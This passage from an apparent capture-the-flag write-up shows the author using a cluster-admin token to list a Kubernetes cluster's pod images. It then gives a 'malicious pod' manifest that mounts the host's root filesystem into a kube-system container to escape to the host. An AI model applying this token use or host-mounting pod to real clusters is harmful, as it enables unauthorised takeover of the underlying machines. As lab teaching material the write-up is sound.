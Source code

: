     ...[snip]...
    

I’ll loop over all the pods and see what images they are running. There’s only
two:

    
    
    oxdf@parrot$ kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt | grep -v NAMESPACE | while read line; do ns=$(echo $line | awk '{print $1}'); name=$(echo $line | awk '{print $2}'); kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt | grep '  - image: '; done | sort -u
      - image: localhost:5000/dev-alpine
      - image: localhost:5000/node_server
    

Here’s the full command with whitespace for readability:

    
    
    kubectl get pods --all-namespaces --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
      | grep -v NAMESPACE
      | while read line; do 
          ns=$(echo $line | awk '{print $1}'); 
          name=$(echo $line | awk '{print $2}'); 
          kubectl get pod $name -o yaml -n $ns --token $(cat cadmin-token) --server https://10.10.10.235:8443 --certificate-authority ca.crt
            | grep '  - image: '; 
        done 
      | sort -u
    

It pulls the list of pods, gets rid of the header, and then loops over each
line. For each, it gets the namespace (`$ns`) and the pod name (`$name`), and
then calls the API to get the full YAML. It uses `grep` to get the image
location, and then all the results are passed into `sort -u` to get unique
entries.

#### Malicious Pod

I’ll create a YAML to describe my pod:

    
    
    apiVersion: v1 
    kind: Pod
    metadata:
      name: alpine
      namespace: kube-system
    spec:
      containers:
      - name: evil0xdf
        image: localhost:5000/dev-alpine
        command: ["/bin/sh"]
        args: ["-c", "sleep 300000"]
        volumeMounts: 
        - mountPath: /mnt
          name: hostfs
      volumes:
      - name: hostfs
        hostPath:  
          path: /
      automountServiceAccountToken: true
      hostNetwork: true
    